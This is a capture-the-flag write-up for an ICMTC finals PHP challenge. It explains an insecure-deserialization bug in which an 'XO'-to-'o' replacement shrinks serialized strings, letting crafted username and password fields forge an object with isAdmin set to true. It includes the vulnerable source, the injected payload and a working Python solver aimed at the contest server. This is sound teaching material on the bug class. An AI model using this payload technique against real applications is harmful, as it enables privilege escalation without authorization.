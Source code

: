 ```yaml
---
title: ICMTC Finals - Puzzle 2
author: 0x41ly
classes: wide
ribbon: red
header:
  teaser: /assets/images/icmtc-logo.png 
date: 2023-07-17 06:00:00 +0800
categories: CTF
description: "no one has solved Puzzle 2 in ICMTC CSC CTF Finals..."
tags: [php, insecure-deserialization]
---
```



We were provided a source code:
```php
<?php

include 'flag.php';

session_start();
class Users
{
    protected $username;
    protected $password;
    private $isAdmin = false;
    private $id = '';

    public function __construct($username , $password)
    {
        $this -> username = $username;
        $this -> password = $password;
        $this -> isAdmin = false;
    }

    public function __isAdmin(){
        return $this -> isAdmin;
    }

    public function setUsername($username)
    {
        $this -> username = $username;
    }

    public function setPassword($password)
    {
        $this -> password = $password;
    }

    public function getUsername()
    {
        return $this -> username;
    }

    public function getPassword()
    {
        return $this -> password;
    }
}


isset($_GET['src']) ? highlight_file(__FILE__) : '';


if(isset($_POST['solve']))
{
    $user = new Users($_POST['username'],$_POST['password']);
    $_SESSION['user'] = serialize($user);

}
else
{
    if(!isset($_SESSION['user']))
        $user = new Users("EG-CERT","Hi!");
    else
    {
        $user = str_replace('XO', 'o', $_SESSION['user']);
        $user = unserialize($user);
    }

    if($user -> __isAdmin())
        echo $FLAG;
    else
        echo "Try Again !!";

}
?>
```

To read the Flag we must set the `isAdmin` to true 
#### **Obstacles** :
- we don't have control to the whole serialized object but only 2 variables that be used in serialization and unserialization.

#### Bypasses:
- we have a good hint here
	```php
	$user = str_replace('XO', 'o', $_SESSION['user']);
	```
	where we can manipulate the length of the serialized object before being serialized.

  #### Example 
  Lets at first see an example of a normal serialized object
  ```php
  $user= new Users("lol","lol");
  echo serialize($user);
// O:5:"Users":4:{s:11:"�*�username";s:3:"lol";s:11:"�*�password";s:3:"lol";s:14:"�Users�isAdmin";b:0;s:9:"�Users�id";s:0:"";}
```

It is very important to take care of the null bytes in the serialized object as they are considered as a part of the string length here.

#### MindSet
- We will try to manipulate the length of the serialized object before its being unserialized by using the `XO` hint
if we set the username to a `XOXOXOXOXOXO` the usernamestring will be considered as 12 byte long string but before unserialize the same object the XO will be replaced with "o" which will make the string itself 6 byte long but when unserialize the object the function will replace the missing 6 bytes with the next 6 bytes after the replacd string 
##### Example
Let's forget about the nullbytes now but we will need it later
```php
 $user = new Users("XOXOXOXOXO","");
O:5:"Users":4:
{
	s:11:"*username";
		s:10:"XOXOXOXOXO";
	s:11:"*password";
		s:0:"";
	s:14:"UsersisAdmin";
		b:0;
	s:9:"Usersid";
		s:0:"";
}
```

after this being replaced the object will be  like this
```php
O:5:"Users":4:
{
	s:11:"*username";
		s:10:"ooooo";s:1
	//and here it will gives you a parse error
	//1:"*password";s:0:"";s:14:"UsersisAdmin";b:0;s:9:"Usersid";s:0:"";}
```

What can we benefit from this?
We can force the serialized object to reconstruct itself so we can control the whole object.

The attack contains 2 parts.
##### First part -- Username
we will force the username to be equal `{n*o}";s:11:"�*�password";s:{password part payload length}:`

if we count the byte needed considering that the password payload is 2 digits long we need 26 bytes including the null bytes to be replaced so we will just write 26 `XO's`

```php
$user= new Users("XOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXO","{there will be a payload here}");

O:5:"Users":4:
{
	s:11:"*username";
		s:52:"oooooooooooooooooooooooooo";s:11:"*password";s:30:"
		// here we can control the password payload
		{there will be a payload here}";s:14:"UsersisAdmin";b:0;s:9:"Usersid";s:0:"";}

```

and now it is obvious what we are going to do we will put the rest of the object n the password string.

 Second part -- Password
 What messing in the object is the Password field and the most important part which is `isAdmin` attribute 
 
 The final payload will be 
 ```php
 s:11:"�*�password";s:3:"lol";s:14:"�Users�isAdmin";b:0;s:9:"�Users�id";s:49:"
```

so when it be put all together the object look like 
``` php
O:5:"Users":4:{
	s:11:"*username";
		s:52:"oooooooooooooooooooooooooo";s:11:"*password";s:75:";
	s:11:"*password";
		s:0:"";
	s:14:"UsersisAdmin";
		b:1;
	s:9:"Usersid";
		s:49:"";s:14:"UsersisAdmin";b:0;s:9:"Usersid";s:0:"";
}

```

So if we created the object like this 
```php
$user = new Users("XOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXO",";s:11:\"\0*\0password\";s:0:\"\";s:14:\"\0Users\0isAdmin\";b:1;s:9:\"\0Users\0id\";s:49:\"");
$serialized= serialize($user);
$serialized2 = str_replace('XO', 'o', $serialized);
$unser_user = unserialize($serialized2);
echo var_dump($unser_user);
```

![](/assets/images/puzzle2/explain.png)

Now we reached our objective to make the `isAdmin=true`

solver.py
```python
from requests import post
from base64 import b64decode

url = "http://139.59.129.141:8087/"
payload = ';s:11:"\x00*\x00password";s:0:"";s:14:"\x00Users\x00isAdmin";b:1;s:9:"\x00Users\x00id";s:49:"'
body = {'solve': 'true', 'username': 'XOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXOXO', 'password': payload}

# res = post("http://localhost:8080", data=body)
res = post(url, data=body)

cookie = res.headers['Set-Cookie']

print(cookie)
res = post(url , headers={'Cookie': cookie})
print(res.text)
```


![](/assets/images/puzzle2/demo.jpeg)



---
Thanks for reading our writeup
